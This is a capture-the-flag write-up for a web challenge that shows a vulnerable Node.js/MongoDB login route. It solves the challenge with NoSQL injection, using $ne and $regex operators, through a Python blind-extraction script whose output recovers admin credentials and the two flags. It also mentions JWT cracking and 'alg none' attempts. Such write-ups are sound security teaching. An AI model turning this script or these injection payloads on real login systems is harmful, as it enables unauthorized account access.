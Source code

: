 No Sequels & No Sequels 2
========
**Category**: web  **Points**: 50 & 80

Challenge Description
------------
We were directed to a website with the following source code

```
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

...

router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

Solution
-----------------

The hint `MongoDB is a safer alternative to SQL, right?` points us to MongoDB NoSQL injection.

In a NoSQL injection, we can abuse the operators such as $gt or $ne and perform logical evaluations with the data returned from the database query.

Note: We have to change the Content-Type header to application/json to evaluate JSON data.

![screenshot1](req.PNG)

However, I was not able to login because of the JWT token issues. I have tried performing some JWT token attacks using jwt2john.py (https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py)
to crack the token secret, as well as replacing the HS256 algorithm as None however none were successful.

Fortunately, I could still perform a blind injection attack

![screenshot2](req2.PNG)

Burp > Copy as Requests and add a loop

```
import requests

burp0_url = "https://nosequels.2019.chall.actf.co:443/login"
burp0_cookies = {"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU2MTg3MjA0fQ.VPJLL2Cy4893djpyDGaMZ9P_Pv8LOFn8xxH4T4EJWi0"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://nosequels.2019.chall.actf.co/login", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/json"}

chars = "abcdefghijklmnopqrstuvwxyz0123456789_"
password = ''

while 1:
  for i in chars:
    burp0_json={"password": {"$regex": "^" + password + i}, "username": {"$ne": "test"}}
    r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
    if 'Wrong' not in r.text:
      password += i
      print password
```

We now get the password:
```
# python blind.py 
c
co
con
cong
congr
congra
congrat
congrats
congratsy
congratsyo
congratsyou
congratsyouw
congratsyouwi
congratsyouwin
```

After doing the same with username, we obtain the credentials `admin:congratsyouwin`and were able to login and solve the two challenges.

flag1: `actf{no_sql_doesn't_mean_no_vuln}`

flag2: `actf{still_no_sql_in_the_sequel}`

